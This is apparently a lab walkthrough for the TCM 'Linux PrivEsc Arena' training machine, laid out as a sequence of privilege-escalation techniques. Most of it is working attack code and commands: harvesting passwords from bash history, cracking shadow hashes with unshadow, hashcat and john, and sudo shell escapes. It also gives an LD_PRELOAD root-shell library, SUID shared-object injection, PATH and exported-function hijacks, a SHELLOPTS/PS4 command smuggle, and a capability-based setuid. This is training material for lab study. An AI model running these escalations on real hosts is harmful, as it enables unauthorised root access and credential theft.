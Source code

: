 # Linux PrivEsc Arena

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

Connection SSH&#x20;

```bash
 ssh -oHostKeyAlgorithms=+ssh-dss TCM@10.10.19.42
```

## Privilege Escalation - Kernel Exploits

### Detection

**/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
[**https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c**](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
{% endhint %}

### Privilege Escalation - Stored Passwords (Config Files & History)

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption><p>Config File</p></figcaption></figure>

#### History!

```bash
 cat ~/.bash_history | grep -i passw
```

What was TCM trying to log into?

Who was TCM trying to log in as?&#x20;

Who was TCM trying to log in as?

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

```
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

### Privilege Escalation - SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
sudo find /bin -name nano -exec /bin/sh \;
sudo awk 'BEGIN {system("/bin/sh")}'
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
sudo vim -c '!sh'
sudo apache2 -f /etc/shadow

```

```bash
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```

### Privilege Escalation - Sudo (LD\_PRELOAD)

1. In command prompt type: sudo -l
2. From the output, notice that the LD\_PRELOAD environment variable is intact.

```c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }
    
    /*
        gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
        sudo LD_PRELOAD=/tmp/x.so apache2
    */
```

<figure><img src="../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### Privilege Escalation - SUID (Shared Object Injection)

Detection

```bash
find / -type f -perm -04000 -ls 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

<figure><img src="../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

Exploitation

```bash
 mkdir /home/user/.config
 cd /home/user/.config
 nano libcalc.c
#[code]
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### Privilege Escalation - SUID (Environment Variables #1,2)

\#1 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 strings /usr/local/bin/suid-env
```

Exploitation

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
 gcc /tmp/service.c -o /tmp/service
 export PATH=/tmp:$PATH
 /usr/local/bin/suid-env
```

\#2 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 /usr/local/bin/suid-env2
#1
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2

#2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### Privilege Escalation - Capabilities

```bash
 getcap -r / 2>/dev/null
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

